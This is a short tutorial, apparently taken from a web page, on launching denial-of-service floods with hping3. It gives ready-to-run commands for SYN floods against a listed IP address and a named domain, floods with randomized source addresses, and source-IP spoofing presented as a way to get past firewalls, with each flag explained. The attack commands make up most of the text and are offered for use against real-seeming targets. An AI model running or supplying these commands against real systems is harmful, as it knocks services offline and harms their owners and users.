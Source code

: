```
sudo apt install hping3 -y
```

A simple DOS (not DDOS) attack would be:
```
sudo hping3 -S --flood -V -p 80 170.155.9.185
```

sudo: gives needed privileges to run hping3.
hping3: calls hping3 program.
-S: specifies SYN packets.
–flood: replies will be ignored and packets will be sent as fast as possible.
-V: Verbosity.
-p 80: port 80, you can replace this number for the service you want to attack.
170.155.9.185: target IP.

Flood Using SYN Packets Against Port 80
SYN packets include the connection synchronization confirmation request.
The following example shows a SYN attack against lacampora.org:

```
sudo hping3 lacampora.org -q -n -d 120 -S -p 80 --flood --rand-source
```

Flood From a Fake IP Address With hping3
With hping3 you can also attack your targets with a fake IP. In order to bypass a firewall, you can even clone your target IP itself, or any allowed address you may know (you can achieve it for example with Nmap or a sniffer to listen to established connections).

The syntax is the following:
```
sudo hping3 -a <FAKE IP> <target> -S -q -p 80
```
In the example below, I replaced my real IP address with the IP 190.0.174.10.
```
sudo hping3 -a 190.0.174.10 190.0.175.100 -S -q -p 80
```
